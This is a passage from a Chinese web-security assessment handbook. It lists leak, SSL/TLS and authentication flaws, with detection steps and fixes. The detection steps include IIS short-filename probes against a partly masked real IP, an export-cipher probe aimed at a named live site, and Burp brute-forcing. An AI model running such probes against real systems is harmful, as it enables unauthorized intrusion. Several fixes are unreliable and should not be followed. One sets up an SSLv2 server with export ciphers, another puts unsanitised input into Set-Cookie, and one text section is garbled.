	4、建立起良好的代码审核、审查体系，由专人负责代码的审计，增加安全监督环节。
	5、合理配置WEB服务器，禁止在数据交互中，传输内网IP地址。
	6、对于IIS服务器中的泄露内网IP地址的漏洞修复方法：
	输入CMD进入命令提示符，输入“adsutil set w3svc/UseHostName True net stop iisadmin /y net start w3svc。这样就可以让IIS使用主机名而不是主机的IP地址，这样即时是有人利用漏洞也只是看到主机名而不是主机IP，从而防止内容IP地址泄露。
	其他说明	
### 4.2.8Cookie信息泄露 ###
	漏洞名称	
	Cookie信息泄露、Cookie安全性漏洞、Cookie未设置httponly属性
	漏洞描述	
	cookie的属性设置不当可能会造成系统用户安全隐患，Cookie信息泄露是Cookie http only配置缺陷引起的，在设置Cookie时，可以设置的一个属性，如果Cookie没有设置这个属性，该Cookie值可以被页面脚本读取。 例如：当攻击者发现一个XSS漏洞时，通常会写一段页面脚本，窃取用户的Cookie，如果未设置http only属性，则可能导致用户Cookie信息泄露，攻击者能够利用该用户的身份进行系统资源访问及操作。如图是设置了cookies属性和没有设置属性，被XSS跨站截获的cookies对比：
	设置了httponly属性：



	未设置httponly属性：



	危害等级（参考）
	低危，可被利用后可以为中危
	
	检测条件	
	已知Web网站具有登录页面。
	检测方法	
	通过用web扫描工具进行对网站的扫描，如果存在相关cookies的安全性问题，则一般工具都会检测出来，误报率小。
	修复方案	
	建议如果网站基于cookie而非服务器端的验证，请最好加上HttpOnly，当然，目前这个属性还不属于任何一个标准，也不是所有的浏览器支持，建议设置cookie的代码： 
	response.setHeader("SET-COOKIE", 
	"user=" + request.getParameter("cookie") + "; HttpOnly");
	本段代码设置了http only属性，攻击者无法获取用户Cookie信息。
		
### 4.2.9异常信息泄露 ###
	漏洞名称	
	未自定义统一错误页面导致信息泄露，抛出异常信息泄露，错误详情信息泄漏
	漏洞描述	
	JBOSS默认配置会有一个后台漏洞，漏洞发生在jboss.deployment命名空间，中的addURL()函数,该函数可以远程下载一个war压缩包并解压。 如果压缩包里含有webshell文件，是直接可以解析的。
	危害等级（参考）
	低危，可被利用后可以为中危
	检测条件	
	被测网站web业务正常运行
	检测方法	
	通过web扫描工具对网站扫描可得到结果。
	1、或者通过手工，去尝试打开一些不存在的网站路径，或者文件，以及在url中输入一些敏感的字符，看其页面是否会抛出异常或者报错，导致错误消息中包含一些网站架构，版本，等敏感信息。
	修复方案	
	详细的各种修复方案请参考如下：
	1、对于tomcat的中间件下，常用修复方式如下：找到配置文件web.xml,修改内容如下：
	<error-page>
			<exception-type>java.lang.Throwable</exception-type>
			<location>/jsp/common/error.jsp</location>
		</error-page>
		<error-page>
			<error-code>500</error-code>
			<location>/jsp/common/500.jsp</location>
		</error-page>
		<error-page>
			<error-code>404</error-code>
			<location>/jsp/common/404.jsp</location>
		</error-page>
		<error-page>
			<error-code>403</error-code>
			<location>/jsp/common/403.jsp</location>
		</error-page>
	2、对于常用的jsp语言开发的网站，可在业务流程中，加入异常捕获过程中预定义的错误编码，将异常输出到错误日志中，并在前台页面返回相应的错误编码，以便应用系统运维人员进行异常排查。代码参考：
	try {
		//某业务处理流程
	     ……
	} catch (Exception e) {
		e.printStackTrace();
		logger.error(e.getMessage());
		resultMessage = getText("业务处理发生异常，错误编码A-04221!");
		return "errorJsp";
	}
	3、对于IIS/ASP.net下设置404错误页面：这样，便可以保证IIS能够正确地返回“404”状态码：首先，修改应用程序根目录的设置，打开 “web.config” 文件编辑，在其中加入如下内容：
	＜configuration＞
	　　＜system.web＞
	　　＜customErrors mode=”On” defaultRedirect=”error.asp”＞
	　　＜error statusCode=”404″ redirect=”notfound.asp” /＞
	　　＜/customErrors＞
	　　＜/system.web＞
	＜/configuration＞
	注：上文例中“error.asp”为系统默认的404页面，“notfound.asp”为自定义的404页面，使用时请修改相应文件名。然后，在自定义的404页面“notfound.asp”中加入将显示的代码页面，如“not found”。
	4、对于apache服务器的设置：修改 httpd.conf，找到如下：
	#ErrorDocument 500 "The server made a boo boo."
	#ErrorDocument 404 /missing.html
	#ErrorDocument 404 "/cgi-bin/missing_handler.pl"
	#ErrorDocument 402 http://www.example.com/subscription_info.html
	httpd.conf中的这一部分,#ErrorDocument 404 /missing.html 是显示错误页信息的,去掉前面的#，修改为：ErrorDocument 404 /404.jsp
	5、对于PHP中间件的使用者，可通过修改php.ini文件来实现如果关闭与开启错误信息，关闭错误显示后，php函数执行错误的信息将不会再显示给用户，这样能在一定程度上防止攻击者从错误信息得知脚本的物理位置，以及一些其它有用的信息，起码给攻击者的黑箱检测造成一定的障碍。这些错误信息可能对我们自己有用，可以让它写到指定文件中去，那么修改以下
	log_errors = Off 
	改为： 
	log_errors = On 
	以及指定文件，找到下面这行： 
	;error_log = filename 
	去掉前面的;注释，把filename改为指定文件，如/usr/local/xxx/logs/php_error.log 
	error_log = /usr/local/xxx/logs/php_error.log 
	这样所有的错误都会写到php_error.log文件里。
	6、对于J2EE项目开发的网站，如果想通过捕获抛出的异常信息的方式来修复，可以使用使用Spring MVC统一异常处理的方法来进行修复， Spring MVC处理异常有3种方式：
	1、使用Spring MVC提供的简单异常处理器SimpleMappingExceptionResolver：
	<bean class="org.springframework.web.servlet.handler.SimpleMapping
	ExceptionResolver">
	<!-- 定义默认的异常处理页面，当该异常类型的注册时使用 -->
	<property name="defaultErrorView" value="error"></property>
	<!-- 定义异常处理页面用来获取异常信息的变量名，默认为exception --〉
	<property name="exceptionAttribute" value="ex"></property>
	<!-- 定义需要特殊处理的异常，用类名或完全路径名作为key，异常也页名作为值 -->
	<property name="exceptionMappings">
	<props>
	<prop key="cn.basttg.core.exception.BusinessException">error-business</prop>
	<prop key="cn.basttg.core.exception.ParameterException">error-parameter</prop>
	<!-- 这里还可以继续扩展对不同异常类型的处理 -->
	</props>
	</property>
	</bean>
	启动测试项目，经验证，各种层面所抛出的异常（业务异常BusinessException、参数异常ParameterException和其它的异常Exception）都能准确显示定义的异常处理页面，达到了统一异常处理的目标。使用SimpleMappingExceptionResolver进行异常处理，具有集成简单、有良好的扩展性、对已有代码没有入侵性等优点，但该方法仅能获取到异常信息，若在出现异常时，对需要获取除异常以外的数据的情况不适用。
	2、实现Spring的异常处理接口HandlerExceptionResolver 自定义自己的异常处理器； 增加HandlerExceptionResolver 接口的实现类MyExceptionHandler，代码如下：：
	1..public class MyExceptionHandler implements HandlerExceptionResolver {  
	2.  
	3.    public ModelAndView resolveException(HttpServletRequest request, HttpServletResponse response, Object handler,  
	4.            Exception ex) {  
	5.        Map<String, Object> model = new HashMap<String, Object>();  
	6.        model.put("ex", ex);  
	7.          
	8.        // 根据不同错误转向不同页面  
	9.        if(ex instanceof BusinessException) {  
	10.            return new ModelAndView("error-business", model);  
	11.        }else if(ex instanceof ParameterException) {  
	12.            return new ModelAndView("error-parameter", model);  
	13.        } else {  
	14.            return new ModelAndView("error", model);  
	15.        }  
	16.    }  
	17.}  
	在Spring的配置文件applicationContext.xml中增加以下内容：
	<bean 
	id="exceptionHandler" class="cn.basttg.core.exception.MyExceptionHandler"/>
	启动测试项目，经验证各种层抛出的异常（业务异常BusinessException、参数异常ParameterException和其它的异常Exception）都能准确显示定义的异常处理页面，达到了统一异常处理的目标，使用实现HandlerExceptionResolver接口的异常处理器进行异常处理，具有集成简单、有良好的扩展性、对已有代码没有入侵性等优点，同时，在异常处理时能获取导致出现异常的对象，有利于提供更详细的异常处理信息。（3）	
	3、使用@ExceptionHandler注解实现异常处理；增加BaseController类，并在类中使用@ExceptionHandler注解声明异常处理，代码如下：
	1.public class BaseController {  
	2.    /** 基于@ExceptionHandler异常处理 */  
	3.    @ExceptionHandler  
	4.    public String exp(HttpServletRequest request, Exception ex) {  
	5.          
	6.        request.setAttribute("ex", ex);  
	7.          
	8.        // 根据不同错误转向不同页面  
	9.        if(ex instanceof BusinessException) {  
	10.            return "error-business";  
	11.        }else if(ex instanceof ParameterException) {  
	12.            return "error-parameter";  
	13.        } else {  
	14.            return "error";  
	15.        }  
	16.    }  
	17.}
	修改代码，使所有需要异常处理的Controller都继承该类，如下所示，修改后的TestController类继承于BaseController：
	public class TestController extends BaseController  
	使用@ExceptionHandler注解实现异常处理，具有集成简单、有扩展性好（只需要将要异常处理的Controller类继承于BaseController即可）、不需要附加Spring配置等优点，但该方法对已有代码存在入侵性（需要修改已有代码，使相关类继承于BaseController），在异常处理时不能获取除异常以外的数据。

### 4.2.10敏感信息泄露 ###
	漏洞名称	
	敏感信息泄露
	漏洞描述	
	敏感数据包括但不限于：口令、密钥、证书、会话标识、License、隐私数据（如短消息的内容）、授权凭据、个人数据（如姓名、住址、电话等）等，在程序文件、配置文件、日志文件、备份文件及数据库中都有可能包含敏感数据。
	危害等级（参考）
	低危，可被利用后可以为中危
	
	检测条件	
	Web业务运行正常。
	Web中存储敏感的数据信息。
	检测方法	
	检测形式多样，工具爬虫扫描得到敏感文件的路径，从而找到敏感数据，
	手工挖掘，根据web容器或者网页源代码的查看，找到敏感信息。
	修复方案	
	安全建议或者修复方案：
	1、禁止在代码中存储敏感数据：禁止在代码中存储如数据库连接字符串、口令和密钥之类的敏感数据，这样容易导致泄密。用于加密密钥的密钥可以硬编码在代码中。
	2、禁止密钥或帐号的口令以明文形式存储在数据库或者文件中：密钥或帐号的口令必须经过加密存储。例外情况，如果Web容器的配置文件中只能以明文方式配置连接数据库的用户名和口令，那么就不用强制遵循该规则，将该配置文件的属性改为只有属主可读写。
	1、禁止在 cookie 中以明文形式存储敏感数据：cookie信息容易被窃取，尽量不要在cookie中存储敏感数据；如果条件限制必须使用cookie存储敏感信息时，必须先对敏感信息加密再存储到cookie。
	2、禁止在隐藏域中存放明文形式的敏感数据。
	3、禁止用自己开发的加密算法，必须使用公开、安全的标准加密算法。
	4、禁止在日志中记录明文的敏感数据：禁止在日志中记录明文的敏感数据（如口令、会话标识jsessionid等）， 防止敏感信息泄漏。
	5、禁止带有敏感数据的Web页面缓存：带有敏感数据的Web页面都应该禁止缓存，以防止敏感信息泄漏或通过代理服务器上网的用户数据互窜问题。	
### 4.2.11IIS短文件名泄露# ###
	漏洞名称	
	IIS短文件名泄露
	漏洞描述	
	Microsoft IIS在实现上存在文件枚举漏洞，攻击者可利用此漏洞枚举网络服务器根目录中的文件,
	危害等级（参考）
	低危，可被利用后可以为中危
	检测条件	
	被测网站使用了ASP.NET。
	被测网站有未自定义统一错误页面的漏洞。
	检测方法	
	检测第一步，输入域名http://219.143.x.x:9084 /*~1*/1.aspx,回显如下：


	
	检测第二步，输入域名http://219.143.x.x:9084 /zz*~1*/1.aspx,回显如下：



	修复方案
	安全修复方案：
	方案1、修改注册列表:
	HKLM\SYSTEM\CurrentControlSet\Control\FileSystem\NtfsDisable8dot3NameCreation的值为1,或者，可以直接点此下载，然后运行,再重启下机器。(此修改只能禁止NTFS8.3格式文件名创建,已经存在的文件的短文件名无法移除)。该修改不能完全修复,只是禁止创建推荐使用后面的修复建议
	方案2、如果你的web环境不需要asp.net的支持你可以进入Internet 信息服务(IIS)管理器 --- Web 服务扩展 - ASP.NET 选择禁止此功能。（推荐）
	方案3、升级net framework 至4.0以上版本.（推荐）
	其中方案2和3才能将该漏洞彻底修复。

## 4.2.12Robots文件信息泄露# ##
	漏洞名称	
	Robots文件信息泄露、Robots.txt泄露
	漏洞描述	
	搜索引擎可以通过robots文件可以获知哪些页面可以爬取，哪些页面不可以爬取。Robots协议是网站国际互联网界通行的道德规范，其目的是保护网站数据和敏感信息、确保用户个人信息和隐私不被侵犯，如果robots.txt文件编辑的太过详细，反而会泄露网站的敏感目录或者文件，比如网站后台路径，从而得知其使用的系统类型，从而有针对性地进行利用。
	危害等级（参考）
	低危，可被利用后可以为中危
	检测条件	
	Web业务运行正常。
	Web中存储敏感的robots文件。
	检测方法	
	检测形式多样，工具爬虫扫描得到敏感文件的路径，从而找到robots文件，
	手工挖掘，直接在域名后输入/robots.txt进行查看。
	修复方案
	安全建议或者修复方案：（可根据实际情况，进行如下对应的修复）
	1、User-agent: * 这里的*代表的所有的搜索引擎种类，*是一个通配符
	2、Disallow: / 这里定义是禁止爬寻站点所有的内容
	3、Disallow: /admin/ 这里定义是禁止爬寻admin目录下面的目录
	4、Disallow: /ABC/ 这里定义是禁止爬寻ABC目录下面的目录
	5、Disallow: /cgi-bin/*.htm 禁止访问/cgi-bin/目录下的所有以".htm"为后缀的URL(包含子目录)。
	6、Disallow: /*?* 禁止访问网站中所有包含问号 (?) 的网址
	7、Disallow: /.jpg$ 禁止抓取网页所有的.jpg格式的图片
	8、Disallow:/ab/adc.html 禁止爬取ab文件夹下面的adc.html文件。
	9、Allow: /cgi-bin/　这里定义是允许爬寻cgi-bin目录下面的目录
	10、Allow: /tmp 这里定义是允许爬寻tmp的整个目录
	11、Allow: .htm$ 仅允许访问以".htm"为后缀的URL。
	12、Allow: .gif$ 允许抓取网页和gif格式图片
	13、Sitemap: 网站地图 告诉爬虫这个页面是网站地图。
	其他说明	
## 4.3组件类 ##
### 4.3.1脆弱的SSL加密算法 ###
	漏洞名称	
	弱加密算法、脆弱的加密算法、脆弱的SSL加密算法、openssl的FREAK Attack漏洞
	漏洞描述	
	脆弱的SSL加密算法，是一种常见的漏洞，且至今仍有大量软件支持低强度的加密协议，包括部分版本的openssl。其实，该低强度加密算法在当年是非常安全的，但时过境迁，飞速发展的技术正在让其变得脆弱。黑客可利用SSL弱加密算法漏洞进行SSL中间人攻击，即强迫服务器和用户之间使用低强度的加密方式，然后再通过暴力破解，窃取传输内容。强度较弱的加密算法将不能较好的保证通信的安全性，有被攻击者破解的风险。对于linux中openssl的FREAK Attack漏洞，该漏洞是由于OpenSSL库里的s3_clnt.c文件中，ssl3_get_key_exchange函数，允许客户端使用一个弱RSA密钥，向SSL服务端发起RSA-to-EXPORT_RSA的降级攻击，以此进行暴力破解，得到服务端秘钥。此问题存在于OpenSSL版本0.9.8zd之前, 或1.0.0p之前的1.0.0，或1.0.1k之前的1.0.1。
	危害等级（参考）
	低危，可被利用后可以为中危
	检测条件	
	已知Web网站开放443端口（https）。
	开启了SSL协议。
	检测方法	
	1、对于windows中的检测方法：通过加密算法检测工具，与网站系统进行加密算法枚举通信，探测系统存在的加密算法及位数情况。利用SSLciphercheck软件，通过CMD下运行，进行协议探测进行检测命令：“sslciphercheck.exe -h  ip地址或者域名  -p  443”，或者是利用web扫描工具，如WVS，APPscan等进行扫描检测，相关检测截图：



	2、对于openssl的FREAK Attack漏洞，检测如下：https远程检查方法（看一个网站是脆弱的RSA弱密钥攻击，你可以使用OpenSSL命令）：openssl s_client -connect www.fbi.gov:443 -cipher EXPORT，如果你看到”alert handshake failure”这句话就说明该网站是安全的：



	RedHat系列检查命令：rpm -qa|grep openssl



	Debian\Ubuntu系列检查命令: dpkg -l|grep openssl



	修复方案	
	以下为针对脆弱的SSL加密算法漏洞的修复建议，其中包括IIS、apache、和windows本身的一些安全建议方法：
	1、对于linux中openssl的FREAK Attack漏洞，如果因为生产环境无法直连外网或是变更配置管理等原因而不便更新补丁,可以采取以下临时修复方法：
	①　禁用出口级弱加密算法在命令行使用：openssl ciphers MEDIUM。
	②　禁止apache服务器使用出口级加密算法：vi /etc/httpd/conf.d/ssl.conf；增加如下配置：SSLCipherSuite HIGH:!aNULL:!MD5:!EXP；需要重启apache服务：/etc/init.d/httpd restart。
	③　关于nginx加密算法：1.0.5及以后版本，默认SSL密码算法是HIGH:!aNULL:!MD5；0.7.65、0.8.20及以后版本，默认SSL密码算法是HIGH:!ADH:!MD5；0.8.19版本，默认SSL密码算法是：ALL:!ADH:RC4+RSA:+HIGH:+MEDIUM；0.7.64、0.8.18及以前版本，默认SSL密码算法是ALL:!ADH:RC4+RSA:+HIGH:+MEDIUM:+LOW:+SSLv2:+EXP；低版本的nginx或没注释的可以直接修改域名下ssl相关配置为ssl_ciphers         HIGH:!aNULL:!MD5;需要nginx重新加载服务：/etc/init.d/nginx reload
	2、对于IIS中SSL，修复方案为： 
	①　在 IIS 管理器中，双击本地计算机，然后右键单击所需的某个网站、目录或文件，然后单击“属性”。
	②　在“目录安全性”或“文件安全性”选项卡的“安全通信”下面，单击“编辑”。
	③　在“安全通信”框中，选中“需要安全通道 (SSL)”复选框。
	④　如果需要使用 128 位加密，请选择“要求 128 位加密”复选框。
	⑤　单击“确定”。
	3、对于Apache的修复方案为： 
	①　禁用它只需几分钟的时间。例如，在Apache v2中，你只需要改变默认设置：
	SSLProtocol all
	To
	SSLProtocol all -SSLv2
	②　如何建立一个仅使用SSLv2的服务器：
	可以这样建立一个仅使用SSLv2协议及其密码算法的服务器：
	httpd.conf
	SSLProtocol -all +SSLv2
	SSLCipherSuite SSLv2:+HIGH:+MEDIUM:+LOW:+EXP
	③　如何建立一个仅接受强加密请求的SSL服务器：
	如下设置为仅使用最强的七种密码算法：
	httpd.conf
	SSLProtocol all
	SSLCipherSuite HIGH:MEDIUM
	具体详细方案，可参考：http://www.winet.cn/apache/sitemap.php
### 4.3.2TLS1/SSLv3 重协商漏洞# ###
	漏洞名称	
	重协商漏洞、SSL重协商、TLS1/SSLv3 重协商漏洞
	漏洞描述	
	SSL＼TSL是位于一种可靠地网络层 协议~pTCP协议之上的一个协议 ，该协议是为了在客户端和服务器之 间生成一个安全的连接，这种连接是私密的、可靠的并且通信双方可以互相验证双方 的身份 。所 以SSI ＼TSI 协议应该具有机密性 、完整性和确定性。而对于重新协商，一个SSL 协没一旦建立起来 ，客户端 (C )和服务器 (S)都可以要一次重新协商 ，也称为重新握手，这将会导致在加密 的信道上尽心一次握手 ，C 可以通过发送一个新的client H ello 消息来创建一次重新协商。同样地 ，S可以发送一个H ello request 消息，从而使C 回应一个新的client H ello，以创建一个重新协商，建立重新协商的牧的诗更新密钥，增强所用密码组的保密性和从 C 到s的省份认证等等。
	在 中间人攻击中，攻击者将会主动去窃听，他将截获客户端和服务器之间的连接 ，并使他们认为他们是在直接通话 ，而实 际上他们是通过攻击者的“转接 来通话的。要完成中间人攻击 ，中间人必须截获客户端和服务器间的所有通信信息，这样中间人可以选择有用的信息并且它可 以将新的信息随意的插入
	危害等级（参考）
	低危，可被利用后可以为中危
	检测条件	
	Web业务运行正常
	网站采用了SSL或者TSL的协议。
	检测方法	
	1、通过web漏洞扫描工具进行检测。
	2、通过利用SSLciphercheck软件，通过CMD下运行，进行协议探测进行检测命令：“sslciphercheck.exe -h  ip地址或者域名  -p  443”
	修复方案
	1、关闭renegotiation协议或限制SSL重协商数，以防止TLS DOS攻击：在Apache 2.2.15以上版本中，可以通过在配置文件httpd.conf中，添加如下字串：SSLInsecureRenegotiation Off；如使用的Apache版本低于2.2.15，则可以通过限制SSL重协商的次数防止DOS攻击。       
	2、使用WEB应用防火墙防止中间人攻击：通过WEB应用防火墙，对HTTP Header请求头进行过滤和监控，舍弃嵌入式的Http请求行，以防止中间人攻击。

## 4.4认证和授权类 ##
### 4.4.1密码明文传输 ###
	漏洞名称
	明文传输
	漏洞描述	
	密码明文传输一般存在于web网站登录页面，用户名或者密码采用了明文传输，容易被嗅探软件截取。
	危害等级（参考）
	中危
	检测条件	
	已知Web网站具有登录页面。
	检测方法	
	1、找到网站或者web系统登录页面。
	2、通过过对网站登录页面的请求进行抓包，工具可用burp、wireshark、filder、等等，分析其数据包中相关password（密码）参数的值是否为明文。如图利用wireshark抓包分析的密码：


	
	修复方案	
	建议按照网站的密级要求，需要对密码传输过程中进行加密得使用加密的方式传输，如使用HTTPS，  但加密的方式增加成本，或许会影响用户体验。如果不用 HTTPS，可以在网站前端用 Javascript 做密码加密，加密后再进行传输。
	其他说明	
### ## 4.4.2用户名可枚举 ## ###
	漏洞名称
	用户名枚举
	漏洞描述	
	存在于系统登录页面，利用登陆时输入系统存在的用户名错误密码和不存在的用户名错误密码，返回不同的出错信息可枚举出系统中存在的账号信息。
	危害等级（参考）
	中危
	检测条件	
	已知Web网站具有登录页面。
	登录错误回显不一至。
	检测方法	
	1、找到网站或者web系统登录页面。
	2、在web系统登录页面，通过手工方式，利用系统中存在的用户名和不存在的用户名，密码随意，尝试登录，查看其回显内容。例如：输入存在的用户名admin，回显如下：密码错误；输入不存在的用户名test，回显如下：用户不存在。如图所示：


	
	
	修复方案	
	建议对网站登录页面的判断回显信息修改为一致：用户名或密码错误
### 4.4.3暴力攻击 ###
	
	漏洞名称	
	暴力攻击、暴力破解、暴力猜解
	漏洞描述	
	暴力破解的基本思想是根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解；若全部情况验证后都不符合题目的全部条件，则本题无解。常常存在于网站的登录系统中，通过对已知的管理员用户名，进行对其登录口令的大量尝试。
	危害等级（参考）
	中危，可被利用后可以为高危
	
	检测条件
	已知Web网站具有登录页面。
	登录页面无验证码，无锁定机制。
	检测方法	
	1、找到网站登录页面。
	2、利用burp对登录页面进行抓包，将其发送到Intruder,并设置其密码参数，如pwd=为变量，添加payload（字典），进行攻击，攻击过程中查看其返回的字节长度，来判断是否成功。攻击效果如图所示：


	
	
	修复方案
	防止暴力攻击的一些方法如下：
	1、账户锁定
	账户锁定是很有效的方法，因为暴力破解程序在5-6次的探测中猜出密码的可能性很小。但是同时也拒绝了正常用户的使用。如果攻击者的探测是建立在用户名探测成功之后的行为，那么会造成严重的拒绝服务攻击。对于对大量用户名只用一个密码的探测攻击账户锁定无效。如果对已经锁定的账户并不返回任何信息，可能迷惑攻击者。
	2、返回信息
	如果不管结果如何都返回成功的信息，破解软件就会停止攻击。但是对人来说很快就会被识破。
	3、页面跳转
	产生登录错的的时候就跳到另一个页面要求重新登录。比如126和校内网都是这样做的。局限性在于不能总是跳转页面，一般只在第一次错误的时候跳转，但是第一次之后又可以继续暴力探测了。
	4、适当的延时
	检查密码的时候适当的插入一些暂停，可以减缓攻击，但是可能对用户造成一定的影响。
	5、封锁多次登录的IP地址
	这种方法也是有缺点的，因为攻击者可以定时更换自己的IP。
	6、验证码
	验证码是阻止暴力攻击的好方法，但设计不好的验证码是可以绕过的，而且对于特定目标的手工探测来说验证码是没有作用的。
	其他说明	
### 4.4.4会话标识未更新	 ###
	漏洞名称
	会话操纵、会话标识未更新
	漏洞描述	
	会话标识未更新漏洞，在用户进入登录页面，但还未登录时，就已经产生了一个session，用户输入信息，登录以后，session的id不会改变，也就是说没有建立新session，原来的session也没有被销毁）, 可能会窃取或操纵客户会话和cookie，它们可能用于模仿合法用户，从而使黑客能够以该用户身份查看或变更用户记录以及执行事务。
	危害等级（参考）
	中危
	
	检测条件
	1、已知Web网站地址
	2、Web业务运行正常
	3、Web业务存在登陆认证模块
	4、已知正确的用户名、口令
	检测方法	
	打开网站登录页面。
	1、登陆前通过软件工具抓取到的cookie信息值与在登录后抓取到的cookie进行对比，如果其值一样，则可判断其会话的cookies或者sessions未进行更新。
	登录前：Cookie: JSESSIONID=0000QG_uEL3xnYACkk2dHbZtcJy:-1
	登录后：Cookie: JSESSIONID=0000QG_uEL3xnYACkk2dHbZtcJy:-1
	修复方案	
	始终生成新的会话，供用户成功认证时登录登陆界面和登陆成功的界面一致时， 修改后台逻辑，在验证登陆逻辑的时候，先强制让当前session过期，然后用新的session存储信息：登陆界面和登陆成功的界面不一致时 在登陆界面后增加下面一段代码，强制让系统session过期。 
	request.getSession().invalidate();//清空session 
	Cookie cookie = request.getCookies()[0];//获取cookie 
	cookie.setMaxAge(0);//让cookie过期 ；
	注意：这段代码需要在页面的最后部分加上才可以，否则将报错
		
### 4.4.5未授权访问 ###
	漏洞名称
	未授权访问
	漏洞描述	
	未授权访问漏洞，是在攻击者没有获取到登录权限或未授权的情况下，或者不需要输入密码，即可通过直接输入网站控制台主页面地址，或者不允许查看的链接便可进行访问，同时进行操作。
	危害等级（参考）
	高危
	
	检测条件	
	已知Web网站具有登录页面。或者具有不允许访问的目录或功能。
	不用登录，可通过链接直接访问用户页面功能。
	检测方法	
	1.通过对登录后的页面进行抓包，将抓取到的功能链接，在其他浏览器进行打开， 
	2.也可以通过web扫描工具进行扫描，爬虫得到相关地址链接，进行直接访问，如果未进行跳转到登录页面，则可判断为存在未授权访问漏洞。
	修复方案	
	常见的修复方法：在系统中，加入用户身份认证机制或者tonken验证，防止可被直接通过连接就可访问到用户的功能进行操作，简而言之，一定对系统重要功能点增加权限控制，对用户操作进行合法性验证，
	下列为针对常见的JSP语言编写的网站的安全修复方案：
	1、采用JAVA过滤器技术，对/pages下所有URL进行登录状态检查，通过session.getAttribute()方法从session中获取登录成功时存入session中的身份标识，判断客户端传递过来的身份标识是否与session中保存的一致，不一致则跳转到登录页面。关键代码如下：
	//从session里取的用户名信息
	String username = (String) session.getAttribute("userID");
	//getAttribute中变量根据实际变量传入。
	//判断如果没有取到用户信息,就跳转到登陆页面
	if ((username == null) || "".equals(username)) {
	//跳转到登陆页面
	res.sendRedirect("http://" + req.getHeader("Host") +"/login_oa.jsp");} 
	else {
	//已经登陆,继续此次请求
	chain.doFilter(req, res); }}
	2、进行权限判断，以下代码为过滤器程序，通过会话获取用户身份信息，进行权限判断等操作：
	//在配置文件中设置过滤器
	<filter>
	<filter-name>SessionFilter</filter-name> 
	<filter-class>com.test.frame.filter.SessionFilter</filter-class>
	</filter>
	<filter-mapping>
	<filter-name>SessionFilter</filter-name>
	<url-pattern>/pages/*</url-pattern>
	</filter-mapping>
	<filter>
	----------------------------------------------------------------------------------------------
	//后台过滤程序
	public void doFilter(ServletRequest request, 
	ServletResponse response,FilterChain chain) throws 
	IOException, ServletException {
	HttpServletRequest req = (HttpServletRequest) request;
	HttpServletResponse res = (HttpServletResponse) response;
	HttpSession session = req.getSession(true);
	//从session里取的用户名信息
	String username = (String) session.getAttribute("userID");
	//getAttribute中变量根据实际变量传入。
	//判断如果没有取到用户信息,就跳转到登陆页面 
	if ((username == null) || "".equals(username)) {
	//跳转到登陆页面
	res.sendRedirect("http://" + req.getHeader("Host") +"/login_oa.jsp");} 
	else {
	//已经登陆,继续此次请求
	chain.doFilter(req, res);      }   }
	public void destroy() {   }
	}

### 4.4.6文件上传漏洞 ###
	漏洞名称	
	文件上传漏洞、任意文件上传
	漏洞描述	
	文件上传漏洞，字面意思可以利用WEB上传一些特定的文件。一般情况下文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。文件上传本身是web中最为常见的一种功能需求，关键是文件上传之后服务器端的处理、解释文件的过程是否安全。一般的情况有：
	-1. 上传文件WEB脚本语言，服务器的WEB容器解释并执行了用户上传的脚本，导致代码执行；
	-2. 上传文件FLASH策略文件crossdomain.xml，以此来控制Flash在该域下的行为；
